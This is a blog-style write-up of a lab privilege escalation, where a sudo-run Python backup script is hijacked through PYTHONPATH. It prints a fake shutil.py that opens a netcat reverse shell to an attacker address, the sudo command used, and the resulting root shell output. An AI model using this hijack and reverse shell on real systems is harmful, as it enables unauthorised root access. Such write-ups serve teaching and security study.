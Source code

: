 ```yaml
---
title: Python Library Hijacking
author: 4m0r
date: 2020-08-01 20:00:00 +0530
excerpt: A writeup on how I hijacked a python library for privilege escalation and owned a machine.
thumbnail: /assets/img/posts/pyLibHijack/library.jpg
categories: [Tutorial]
tags: [Python, PYTHONPATH, Library Hijacking, Privilege Escalation]
---
```


![Info](/assets/img/posts/pyLibHijack/library.png)

# Scenario
One time I gained *user* shell on a machine and started poking around for a privilege escalation vector. I noticed that
the user had **sudo** privilege to run a bash script. Enumerating the script, I noticed that it executes a *Python* 
script, ***backup.py***. Therefore, any (malicious) code injected into the python script gets executed with **root**
privileges.

# Limitations
Unfortunately, write access for both the bash and python script files are restricted to *root* user and *admin* group.

# Library Hijacking
Enumerating the python script offered another vital vector. The contents of the python script read as follows.
```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```
As seen from the code, the script imports a module called *make_archive* from the **shutil** library. An important thing
 to understand about Python is that, it imports modules by searching for them in pre-defined directories in an order of 
priority and uses the first occurrence.

## Abusing Python Library Path with insecure permissions
The first thing I did was to find the library paths and their priority. This can be enumerated with the following command.
```shell
python -c 'import sys; print("\n".join(sys.path))'
```
The command echoed the library paths and they were compared against the actual path of *shutil.py* to identify an
injection point.
```shell 
waldo@admirer:/opt/scripts$ python -c 'import sys; print("\n".join(sys.path))'
/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages

waldo@admirer:/opt/scripts$ find /usr -type f -name shutil.py
/usr/lib/python3.5/shutil.py
/usr/lib/python2.7/shutil.py
```
Unfortunately, the user I had access as, did not had write access on any of these directories. So I moved on to the 
next method.

## Abusing PYTHONPATH environment variable
PYTHONPATH[^f1] is an environment variable with which additional directories to search for Python modules can be
set. With this set, Python can be manipulated into directing the search for modules to a preferred location. To that 
effect, I then created a new directory, called **shutil** on the user's home directory. A malicious library file,
 **shutil.py**, to mimic the actual *shutil* library was placed on this new directory. The contents of the file 
 **shutil.py** is as follows.
```python
import os

def make_archive (aaa, bbb, ccc):

    os.system ("/bin/nc -e '/bin/bash' 10.10.10.9 9095")
```
Note that since we are mimicking the actual **make_archive** module, the number of arguments for this fake module should
 be the same as the original or else the function call from *backup.py* will fail with a *TypeError*. When the bash 
script is executed with sudo, the malicious **make_archive** is executed with root privileges, resulting in an elevated
 reverse shell. 

In my PenTest scenario, I gained reverse shell with PYTHONPATH as shown below.
```shell 
---TARGET---
waldo@admirer:~/shutil$ sudo PYTHONPATH=/home/waldo/shutil /opt/scripts/admin_tasks.sh
---ATTACKER---
[_4m0r@manjaro Admirer]$ nc -nvlp 9095
Connection from 10.10.10.10:50634
python -c "import pty;pty.spawn('/bin/bash');"
root@admirer:/home/waldo/shutil# id
id
uid=0(root) gid=0(root) groups=0(root)
```

# Footnotes
[^f1]:[PYTHONPATH](https://docs.python.org/3/using/cmdline.html#environment-variables)